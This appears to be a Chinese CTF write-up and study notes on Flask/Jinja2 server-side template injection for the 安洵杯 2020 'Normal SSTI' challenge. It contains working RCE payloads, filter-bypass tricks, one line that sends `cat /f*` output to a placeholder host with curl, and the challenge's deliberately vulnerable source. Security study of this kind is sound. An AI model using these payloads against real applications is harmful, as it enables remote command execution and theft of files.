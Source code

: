 ```yaml
---
date: 2024-06-01
categories: 
    - 安洵杯
tag:
    - CTF
    - SSTI
    - flask
    - jinja2
    - python
    
---
```


# 每日一题 —— [安洵杯 2020]Normal SSTI

> 题目地址： <https://www.nssctf.cn/problem/910>

<!-- more -->

## SSTI 前传

在此之前，我只在 MiniL2024 的比赛中，接触过简单无过滤的、golang 的 SSTI。但是现在是比较正式的 flask+jinja2 的 SSTI。因此这篇 wp, 比起作为题解，更像是作为 SSTI 学习笔记。

## 题目分析
根据题目提示，我们需要访问 `/test/?url=xxx`，其中 `xxx` 是一个参数，会回显在屏幕上。我们根据提示，知道了这道题是 flask 的 SSTI(偷看 tag 标签)。 我们测试一下 `{{1+2}}`, 发现被过滤了。我们尝试使用 `{%print(1)%}`, 发现这个 `{%print(1)%}` 并没有被过滤。

接下来我们要进行注入了。在此之前，我需要新学习一下 SSTI 的基本方法。首先我先创建了一个基本的 flask 程序。然后让 url 直接回显在屏幕上面。现在我使用这种以下的 url 访问， 可以直接实现 RCE:

```url
http://localhost:5000/?name={{"".__class__.__bases__[0].__subclasses__()[154].__init__.__globals__['popen']('cat$IFS/flag').read()}}
```

接下来分析一下，name 参数里的意义

- "": 这个是一个字符串，它的基类是 object, 我们通过 `"".__class__.__bases__[0]` 获取到了 object。
- `__subclasses__()[154]` : 这个就是 object 的子类，我们通过 `__subclasses__()` 获取到了所有的子类。然后我们通过网页的回显可以看到一大坨子类，我们找到了一个叫 `os._wrap_close` 的子类。这个模块可以用来执行命令。我们把所有的子类都复制到编辑器里面，把所有的除了逗号以外的都删掉，然后数一下逗号的个数，发现这个模块在第 154 个。我们利用 `__subclasses__()[154]` 获取到了这个模块。
- `__init__.__globals__['popen']` : 获取到了 `os._wrap_close` 的属性。
它的下面有一个 `popen` 方法，这个方法可以执行命令。
- `'cat$IFS/flag'` : 执行命令。在这里空格是不能出现的，因为会被 urlencode 为 `%20`，因此我们需要使用 `$IFS` 来代替空格。但是其实这不是最好的方法，还有一个绕过方法，就是将引号内所有内容进行 unicode encode （注意和 urlencode 区分开来）.


来自 [CSDN博客](https://blog.csdn.net/weixin_45669205/article/details/114373785) 抄来的笔记。之后可能会专门出一节 blog 用来做 SSTI 学习。

```
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类（除object），以元组形式，类型的实例通常没有属性。 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的所有子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以调用当前脚本中的函数，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)

config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
self.__dict__		 保存当前类实例或对象实例的属性变量键值对字典，
{%print("DMIND")%}	 控制语句中也能输出

拼接字符：{% set ind=dict(ind=a,ex=a)|join%}		变量ind=index
获取字符：{{lipsum|string|list|attr('pop')(18)}} 相当于：lipsum|string|list|attr('pop')(18)  输出：_（下划线）
得到数字：{{lipsum|string|list|attr('index')('g')}} 相当于lipsum|string|list|attr('index')('g') 输出：10
运算出其他数字：{% set shiba=ten%2bten-two %}        %2b是URL编码后的加号

得到数字：{{dict(a=a)|lower|list|count}}得到16
运算出其他数字：{{dict(aa=a)|lower|list|count-dict(a=a)|lower|list|count}}得到1

得到任意字符：{{dict(dmind=a)|slice(1)|first|first}}得到dmind

获取__builtins__属性：{{lipsum.__globals__|attr('get')('__builtins__')}}		利用get()、pop()获取属性，相当于lipsum.__globals__.get('__builtins__')

lipsum.__globals__.__builtins__  相当于  lipsum|attr('__globals__')|attr('get')('__builtins__')
lipsum.__globals__.__builtins__.chr(95)  相当于  lipsum|attr('__globals__')|attr('get')('__builtins__')|attr('get')('chr')(95)

得到chr函数：{%set chr=lipsum.__globals__.__builtins__.chr%}
利用chr()得到字符：{{chr(47)~chr(32)}}  47是/  32是空格  ~是连接符

利用os执行命令：lipsum.__globals__.os.popen('dir').read()  相当于  lipsum|attr('__globals__')|attr('get')('os')|attr('popen')('dir')|attr('read')()
类似的		  url_for['__globals__']['os']['popen']('dir').read()

简单的读取文件：url_for["__globa"+"ls__"].__builtins__.open("flag.txt").read()

在能执行eval情况下：eval(__import__('so'[::-1]).__getattribute__('syste'%2b'm')('curl http://xxx:4567?p=`cat /f*`'))
```

通篇看下来，对于这道题而言，因为使用的是 flask+jinja2, 所以还有一个更简单的 payload：
```
lipsum.__globals__['os'].popen('ls').read()
``` 
这个的原理是什么呢，我们看一下 flask 内的方法，有一个 lipsum 类，它里面有 os 模块。我们通过 `lipsum.__globals__['os']` 获取到了 os 模块，然后我们就可以使用 os 模块的 popen 方法来执行命令。

重新回到这道题，我们根据各种尝试，发现过滤了`空格`, `{{`, `[]`, `.`, 所以我们不能简单地使用这个方法。我们需要使用 `attr` 方法绕过。对于 `lipsum|attr('__globals__')`, 其实等效于 `lipsum.__globals__`，因此可以知道，attr 就是用来获取属性的。因此，我们的 payload 可以改写成 `lipsum|attr('__globals__')|attr('get')('os')|attr('popen')('ls').read()`。

最后一步，我们发现有一部分字符串被过滤了，我们就可以把引号里面的内容进行 unicode encode，最后完成命令执行.

最终 payload 如下：
```
?url={%print(lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u0067\u0065\u0074")("os")|attr("popen")("\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067")|attr("read")())%}
```
其中，命令执行的部分解码为： `cat /flag`。可以通过多次 RCE 得出最终 payload.

---
ps: 经过命令执行，我读取了他的源代码，经过一番整理如下：

```python
from flask import * 
app = Flask(__name__) 
url_black_list = ['%1c', '%1d', '%1f', '%1e', '%20', '%2b', '%2c', '%3c', '%3e'] 
black_list = ['.', '[', ']', '{{', '=', '_', '\'', '""', '\\x', 'request', 'config', 'session', 'url_for', 'g', 'get_flashed_messages', '*', 'for', 'if', 'format', 'list', 'lower', 'slice', 'striptags', 'trim', 'xmlattr', 'tojson', 'set', '=', 'chr'] 
@app.route('/', methods=['GET', 'POST']) 
def index():
    return 'try to check /test?url=xxx' 

@app.route('/test', methods=['GET']) 
def testing(): 
    url = request.url 
    for black in url_black_list:
        if black in url:
            return '<h1>do a real p1g</h1>' 
    url = request.args.get('url') 
    for black in black_list:
        if black in url: 
            return '<h1>do a real p1g</h1>' 
    return render_template_string('<h1>this is your url {}</h1>'.format(url)) 

if __name__ == '__main__': 
    app.run(host='0.0.0.0', port=8899, debug=True)
```

---
声明：本题解首次采用 vscode+comate 编写，即百度文心 AI 辅助生成。确实不错，写这篇 markdown 文件都能猜到我想要干什么。